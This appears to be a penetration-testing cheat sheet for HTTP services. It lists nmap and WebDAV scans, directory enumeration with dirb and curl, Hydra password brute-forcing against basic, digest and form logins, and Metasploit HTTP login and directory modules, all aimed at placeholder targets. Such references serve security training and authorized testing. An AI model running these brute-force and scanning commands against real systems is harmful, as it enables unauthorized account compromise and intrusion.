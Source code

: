 ```bash
sudo nmap -p 80 -sV -O <TARGET_IP>

nmap -p 80 --script=http-enum -sV <TARGET_IP>
nmap -p 80 --script=http-headers -sV <TARGET_IP>
nmap -p 80 --script=http-methods --script-args http-methods.url-path=/webdav/ <TARGET_IP>
nmap -p 80 --script=http-webdav-scan --script-args http-methods.url-path=/webdav/ <TARGET_IP>
```

#### Alternative

```bash
whatweb <TARGET_IP>
http <TARGET_IP>
browsh --startup-url http://<TARGET_IP>

dirb http://<TARGET_IP>
dirb http://<TARGET_IP> /usr/share/metasploit-framework/data/wordlists/directory.txt

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-head /admin/ #brute http basic auth
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-get /admin/ #brute http digest
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed" # brute http post form
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v" #brute http authenticated post form

wget <TARGET_IP>
curl <TARGET_IP> | more
curl -I http://<TARGET_IP>/<DIR>
curl --digest -u <USER>:<PW> http://<TARGET_IP>/<DIR>

lynx <TARGET_IP>
```

#### Metasploit

```bash
use auxiliary/scanner/http/brute_dirs
use auxiliary/scanner/http/robots_txt
use auxiliary/scanner/http/http_header
use auxiliary/scanner/http/http_login
use auxiliary/scanner/http/http_version

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

## set options depends on the selected module
set HTTP_METHOD GET
set TARGETURI /<DIR>/

set USER_FILE <USERS_LIST>
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /<DIR>/
exploit
```
